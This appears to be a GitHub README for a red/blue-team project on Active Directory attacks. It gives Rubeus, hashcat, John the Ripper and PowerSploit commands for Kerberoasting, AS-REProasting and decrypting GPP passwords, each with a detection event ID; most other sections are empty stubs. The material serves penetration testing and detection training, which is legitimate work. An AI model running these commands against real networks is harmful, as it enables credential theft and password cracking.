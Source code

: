# Cybersecurity Windows Purple Project Documentation
Cybersecurity Red team and Blue team tooling for ease of use during penetration test and purple team exercises. 

## Table of Contents

1. [Kerberoasting](#kerberoasting)
2. [AS-REProasting](#as-reproasting)
3. [GPP Passwords](#gpp-passwords)
4. [GPO Permissions/GPO Files](#gpo-permissionsgpo-files)
5. [Credentials in Shares](#credentials-in-shares)
6. [Credentials in Object Properties](#credentials-in-object-properties)
7. [DCSync](#dcsync)
8. [Golden Ticket](#golden-ticket)
9. [Kerberos Constrained Delegation](#kerberos-constrained-delegation)
10. [Print Spooler & NTLM Relaying](#print-spooler--ntlm-relaying)
11. [Coercing Attacks & Unconstrained Delegation](#coercing-attacks--unconstrained-delegation)
12. [Object ACLs](#object-acls)
13. [PKI - ESC1](#pki---esc1)

---

## Kerberoasting
To obtain crackable tickets, we can use [Rubeus](https://github.com/GhostPack/Rubeus) 

`PS C:\Users\bob\Downloads> .\Rubeus.exe kerberoast /outfile:spn.txt`

We can use hashcat with the hash-mode (option -m) 13100 for a Kerberoastable TGS. 
We also pass a [dictionary file](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials) with passwords (the file passwords.txt) and save the output of any successfully cracked tickets to a file called cracked.txt:

`hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"`

Alternatively, the captured TGS hashes can be cracked with John The Ripper:

`sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot`

*Detection*: When a TGS is requested, an event log with ID 4769 is generated.

## AS-REProasting
To obtain crackable hashes, we can use [Rubeus](https://github.com/GhostPack/Rubeus) we can obtain crackable hashes for user accounts that have the property Do not require "Kerberos preauthentication enabled".

`PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt`

For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$:

`$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550`

We can now use hashcat with the hash-mode (option -m) 18200 for AS-REPRoastable hashes. We also pass a dictionary file with passwords (the file passwords.txt) and save the output of any successfully cracked tickets to the file asrepcracked.txt:

`sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force`

*Detection*: When we executed Rubeus, an Event with ID 4768 was generated, signaling that a Kerberos Authentication ticket was generated

## GPP Passwords
When Microsoft released it with the Windows Server 2008, Group Policy Preferences (GPP) introduced the ability to store and use credentials in several scenarios, all of which AD stores in the policies directory in SYSVOL. AD stores all group policies in \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\

To abuse GPP Passwords, we will use the Get-GPPPassword function from PowerSploit, which automatically parses all XML files in the Policies folder in SYSVOL, picking up those with the cpassword property and decrypting them once detected:

`PS C:\Users\bob\Downloads> Import-Module .\Get-GPPPassword.ps1`
`PS C:\Users\bob\Downloads> Get-GPPPassword`

*Detection:* Once auditing is enabled, any access to the file will generate an Event with the ID 4663
## GPO Permissions/GPO Files


## Credentials in Shares

*Coming soon...*

## Credentials in Object Properties

*Coming soon...*

## DCSync

*Coming soon...*

## Golden Ticket

*Coming soon...*

## Kerberos Constrained Delegation

*Coming soon...*

## Print Spooler & NTLM Relaying

*Coming soon...*

## Coercing Attacks & Unconstrained Delegation

*Coming soon...*

## Object ACLs

*Coming soon...*

## PKI - ESC1

*Coming soon...*


